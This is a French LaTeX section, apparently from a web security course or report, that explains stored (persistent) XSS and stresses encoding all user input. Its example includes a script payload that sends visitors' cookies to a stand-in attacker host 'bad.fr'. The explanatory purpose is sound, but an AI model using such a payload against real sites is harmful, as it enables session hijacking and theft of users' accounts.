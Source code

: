 
\clearpage

\newpage

\section{Stored XSS (persistante)  }


\subsection{Description}

Dans ce type d'attaque, les données fournies par l'utilisateur sont enregistrées sur le serveur et non simplement transmises dans une URI. Un individu malveillant peut entrer des données, enregistrées comme dans un livre d'or, mais qui sont en fait du code interprétable par les navigateurs : javascript, html, etc. Lorsque qu'un internaute consultera ces données, le code injecté sera chargé dans la page demandée et interprété par le navigateur de la victime. Les sites vulnérables vis à vis des ces atttaques XSS présentent un faille appelée parfois “Faille du livre d’or“. Cette faille existe dès lors que le site web fait confiance aux utilisateurs. Une seule injection permet d'atteindre un grand nombre de victimes sans avoir à recourir à l'ingénierie sociale nécessaire lors des attaques reflected XSS. Il est donc primordial que toutes les données reçues par l'application web soient encodées.


\paragraph{Exemple de stored XSS :} 
Un cracker écrit un post sur le blog d'un site vulnérable, le contenu ci-dessous :
\begin{verbatim}
blablabla. <script>location.href='http://bad.fr/?cookie='+document.cookie</script>
\end{verbatim}
L'attaquant récupèrera les valeurs des cookies de tous les futurs lecteurs de son poste.
La figure~\ref{stored_xss} illustre ce principe dans le cas général.

